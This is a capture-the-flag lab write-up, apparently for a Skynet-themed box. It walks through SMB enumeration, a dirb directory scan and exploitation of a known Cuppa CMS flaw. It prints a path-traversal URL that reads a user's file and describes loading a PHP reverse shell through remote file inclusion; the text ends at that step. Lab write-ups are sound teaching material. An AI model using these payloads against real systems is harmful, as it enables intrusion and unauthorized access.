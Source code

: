 ### Gathering the information
- Log into the SMB using the credentials.
- Navigate to *notes/* and download all the files, but the *important.txt* has some useful information what Miles want to do:
```
    1. Add features to beta CMS /45kra24zxs28v3yd
    2. Work on T-800 Model 101 blueprints
    3. Spend more time with my wife
```
- This shows there is a another service that is running on the URI `/45kra24zxs28v3yd`.
- Run the dirb to get any valid URIs it has.

```bash
   $ dirb http://10.10.166.117/45kra24zxs28v3yd /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -i -w

    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------

    START_TIME: Mon Jul  6 14:59:40 2020
    URL_BASE: http://10.10.166.117/45kra24zxs28v3yd/
    WORDLIST_FILES: /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
    OPTION: Using Case-Insensitive Searches
    OPTION: Not Stopping on warning messages

    -----------------

    GENERATED WORDS: 81642                                                         

    ---- Scanning URL: http://10.10.166.117/45kra24zxs28v3yd/ ----
    ==> DIRECTORY: http://10.10.166.117/45kra24zxs28v3yd/administrator/                               
    --> Testing: http://10.10.166.117/45kra24zxs28v3yd/smartphon
```
- The above output shows there is a administrator page and once you navigate it will show the *Cuppa CMS* login page.

### Exploiting the Web Application

- The Cuppa CMS has [vulnerability](https://www.exploit-db.com/exploits/25971), where we can inject the php code.
- Using this known vulnerability, frame the URL to access the user flag: `http://10.10.166.117/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../home/milesdyson/user.txt`
- But this will not work for root flag because of permissions.

### Getting a Reverse Shell

- Using the **Remote File Inclusion,** we can include the php remote shell code from [Pentest Monkey](http://pentestmonkey.net/tools/php-reverse-shell).
- Update the ip and port to our local, where we need to get the reverse shell.
